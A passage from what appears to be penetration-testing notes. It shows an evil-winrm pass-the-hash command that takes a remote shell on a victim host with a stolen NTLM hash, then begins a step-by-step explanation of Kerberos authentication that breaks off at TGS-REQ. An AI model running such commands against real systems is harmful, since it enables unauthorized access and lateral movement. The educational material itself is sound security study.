 WinRM

```bash
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

***

### <mark style="color:green;">Kerberos Authentication</mark>

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

{% stepper %}
{% step %}
#### AS-REQ (Authentication Service Request)

The client requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC)&#x20;
{% endstep %}

{% step %}
#### AS-REP (Authentication Service Reply)

The KDC verifies the client and sends back an encrypted TGT & session key
{% endstep %}

{% step %}
#### TGS-REQ (Ticket Granting Service Request)
